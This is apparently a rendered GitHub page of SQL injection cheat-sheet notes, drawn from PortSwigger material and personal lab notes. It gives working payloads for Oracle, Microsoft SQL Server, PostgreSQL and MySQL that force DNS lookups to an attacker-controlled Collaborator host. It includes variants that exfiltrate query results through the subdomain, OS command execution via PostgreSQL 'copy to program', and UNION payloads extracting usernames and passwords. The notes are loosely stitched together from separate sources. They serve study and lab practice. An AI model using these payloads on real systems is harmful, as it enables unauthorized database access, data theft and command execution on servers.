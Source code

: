 You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

|   |   |
|---|---|
|Oracle|([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:<br><br>`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`<br><br>The following technique works on fully patched Oracle installations, but requires elevated privileges:<br><br>`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`|
|Microsoft|`exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`|
|PostgreSQL|`copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`|
|MySQL|The following techniques work on Windows only:<br><br>`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  <br>`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`|

## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

|   |   |
|---|---|
|Oracle|`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|(SELECT YOUR-QUERY-HERE)\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`|
|Microsoft|`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`|
|PostgreSQL|`create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '\|p\|'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();`|
|MySQL|The following technique works on Windows only:  <br>`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`|

**all columns**

' UNION SELECT column_name,NULL FROM information_schema.columns WHERE TABLE_NAME='pg_user'--

**retrive data from column** 

' UNION SELECT null,username_cqfibf ||'-'|| password_saimcx FROM users_bqjmuq--

### Non Oracle SQL Servers

Non-Oracle SQL servers have an information schema that can be used to obtain information about other tables and their columns and types.

#### Listing Table Information

This query gets a list of tables in a database, using `information_schema.tables`:

SELECT * FROM information_schema.tables

This will return one result per table, with the following fields (probably more):

- `TABLE_CATALOG`
- `TABLE_SCHEMA`
- `TABLE_NAME`
- `TABLE_TYPE`
